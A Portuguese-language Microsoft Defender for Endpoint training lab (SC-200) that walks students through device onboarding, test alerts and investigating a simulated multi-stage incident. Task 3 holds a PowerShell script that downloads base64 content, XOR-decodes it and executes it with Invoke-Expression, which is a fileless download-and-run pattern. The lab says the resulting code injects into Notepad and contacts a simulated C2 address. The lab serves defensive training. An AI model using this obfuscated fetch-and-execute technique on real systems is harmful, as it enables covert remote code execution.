 ```yaml
---
lab:
  title: 'Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade'
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Roteiro de aprendizagem 2, Laboratório 1, Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade

## Cenário do laboratório

![Visão geral do laboratório.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Você é um analista de operações de segurança que trabalha em uma empresa que está implantando o Microsoft Defender para Ponto de Extremidade. Seu gerente planeja integrar alguns dispositivos para fornecer informações sobre as alterações necessárias nos procedimentos de resposta da equipe de Operações de segurança (SecOps).

Para explorar os recursos de mitigação de ataque do Defender para Ponto de Extremidade, você verificará a integração bem-sucedida do dispositivo e investigará alertas e incidentes criados durante esse processo.

### Tarefa 1: verificar integração de dispositivos

Nesta tarefa, você confirmará se o dispositivo foi integrado com êxito e criará um alerta de teste.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador Microsoft Edge, acesse (<https://security.microsoft.com> e faça logon como Administrador do seu locatário.

1. No menu à esquerda, na área **Ativos** , selecione **Dispositivos**. Aguarde até que WIN1 apareça na página Dispositivos antes de continuar. Caso contrário, talvez seja necessário repetir essa tarefa para ver os alertas que serão gerados posteriormente.

    >**Observação:** se você tiver concluído o processo de integração e não vir dispositivos na lista de dispositivos após uma hora, isso pode indicar um problema de integração ou de conectividade.

1. Na barra de menus esquerda do portal do Microsoft Defender XDR, expanda a seção **Sistema** e selecione **Configurações**e, na página *Configurações*, selecione **Pontos de Extremidade**.

1. Selecione **Integração** na seção Gerenciamento de dispositivo e verifique se *"Windows 10 e 11"* está selecionado como sistema operacional. A mensagem *"Primeiro dispositivo integrado"* agora mostra *Concluído*.

1. Role para baixo e, na seção *"2. Executar um teste de detecção"*, copie o script do teste de detecção selecionando o botão **Copiar**.  

1. Na barra de pesquisa do Windows da máquina virtual WIN1, digite **CMD** e escolha **Executar como Administrador** no painel direito do aplicativo Prompt de comando.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado. 

1. Cole o script clicando com o botão direito do mouse na janela **Administrador: Prompt de comando** e pressione **Enter** para executá-lo.

    >**Observação:** A janela é fechada automaticamente depois de executar o script com êxito e, após alguns minutos, os alertas são gerados no portal do Microsoft Defender XDR.

### Tarefa 2: Investigar alertas e incidentes

Nesta tarefa, você investigará os alertas e incidentes gerados pelo script de teste de detecção de integração na tarefa anterior.

1. No portal do Microsoft Defender XDR, expanda **Investigação e resposta** da barra de menus à esquerda, expanda **Incidentes e alertas** e selecione **Alertas**.

    >**Observação:** Em versões atualizadas da página do portal do Microsoft Defender XDR, *Incidentes e alertas* são encontrados no cabeçalho do menu *Investigações e resposta*.

1. No painel **Alertas**, selecione o alerta chamado *[TestAlert] Linha de comando suspeita do PowerShell* para carregar os detalhes dele.

1. Examine a linha do tempo da *História do alerta* e examine as guias *Detalhes* e *Recomendações*.

    >**Observação:** Na guia *Detalhes* do alerta, você pode rolar para baixo até a seção *Detalhes do incidente* e selecionar o link *Incidente de execução em um ponto de extremidade* para abrir o incidente.

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e selecione **Incidentes**

1. Desmarque o filtro de *Severidade de alerta* selecionando o **X** à direita do filtro.

1. Um novo incidente chamado *[TestAlert] Linha de comando suspeita do PowerShell* aparece no painel direito. Selecione o nome do incidente para carregar seus detalhes.

1. Selecione o link **Gerenciar incidente** (com um ícone de lápis) e uma nova folha de janela será exibida.

1. Em **Marcas de incidente**, digite "Simulação" e selecione **Simulação (Criar)** para criar uma marca.

1. Selecione o botão de alternância **Atribuir a** e adicione sua conta de usuário (Eu) como proprietário do incidente.

1. Em **Classificação**, expanda o menu suspenso.

1. Em **Atividade esperada e informativa**, selecione **Teste de segurança**.

1. Selecione **Salvar** para atualizar o incidente e concluir.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. Em um incidente real, a guia *História de ataque* exibe o *Grafo do incidente*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

### Tarefa 3 Simular um ataque

>**Aviso**: Esse ataque simulado é uma excelente fonte de aprendizado por meio da prática. Execute apenas os ataques nas instruções fornecidas para este laboratório ao usar o locatário do Azure fornecido pelo curso.  Você pode executar outros ataques simulados *após* este curso de treinamento ser concluído com esse locatário.

Nesta tarefa, você simulará um ataque à máquina virtual WIN1 e verificará se o ataque foi detectado e mitigado pelo Microsoft Defender para Ponto de Extremidade.

1. Na máquina virtual WIN1, *clique com o botão direito do mouse* o botão **Iniciar** e escolha **Windows PowerShell (Administrador)**.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado.

1. Copie e cole o script de simulação a seguir na janela do PowerShell e pressione **Enter** para executá-lo:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Observação:** Se ocorrerem erros (em vermelho) durante a execução do script, abra o aplicativo Bloco de Notas e copie o script em um arquivo em branco. Certifique-se de que a *quebra automática de linha* esteja ativada no Bloco de Notas. Então, copie e execute cada linha do script separadamente no PowerShell. Além disso, um script do PowerShell (attacksim.ps1) foi fornecido nos arquivos baixados no início dos laboratórios. Para usar o script, no **Windows PowerShell (Administrador)** navegue até a pasta *\Users\Admin\Desktop*, digite *.\attacksim.ps1* e pressione **Enter** para executá-lo.

1. O script produzirá várias linhas de saída e uma mensagem informando que ele *Falhou ao resolver controladores de domínio no domínio*. Alguns segundos depois, o aplicativo *Bloco de Notas* será aberto. Um código de ataque simulado será injetado no Bloco de Notas. Mantenha a instância do Bloco de Notas gerada automaticamente aberta para experimentar o cenário completo. O código de ataque simulado tentará se comunicar com um endereço IP externo (simulando um servidor C2).

### Tarefa 4: Investigar o ataque simulado como um único incidente

1. No portal do Microsoft Defender XDR, expanda **Investigação e resposta** da barra de menus à esquerda, expanda **Incidentes e alertas** e selecione **Incidentes**.

    >**Observação:** Em versões atualizadas da página do portal do Microsoft Defender XDR, *Incidentes e alertas* são encontrados no cabeçalho do menu *Investigações e resposta*.

1. Um novo incidente chamado *Incidente de vários estágios envolvendo evasão de defesa e descoberta em um ponto de extremidade* está no painel direito. Selecione o nome do incidente para carregar seus detalhes.

    >**Observação:** Se você não vir o incidente, desmarque o filtro de *Severidade de alerta* selecionando o **X** à direita do filtro.

1. Na guia *Histórico do ataque*, recolha os painéis de **Alertas** e **Detalhes do incidente** para exibir o **Grafo de incidentes** completo.

1. Passe o mouse e selecione os **Nós do Grafo de incidentes** para revisar as *entidades*.

1. Expanda novamente o painel de **Alertas** (lado esquerdo) e selecione o ícone **Executar histórico de ataque** *Executar*. Isso mostra o alerta da linha do tempo de ataque por alerta e preenche dinamicamente o *Grafo de incidentes*.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

1. Na guia **Evidência e resposta**, selecione **Endereços IP**, em seguida, selecione o *Endereço IP*. Na janela pop-up, revise os detalhes do endereço IP, role para baixo e selecione o botão **Abrir página de endereço IP**.

1. Revise o conteúdo da página *Endereço IP*das guias *Visão geral, incidentes e alertas e Observados em organizações*. Algumas guias podem não conter informações para o endereço IP.

## Você concluiu o laboratório
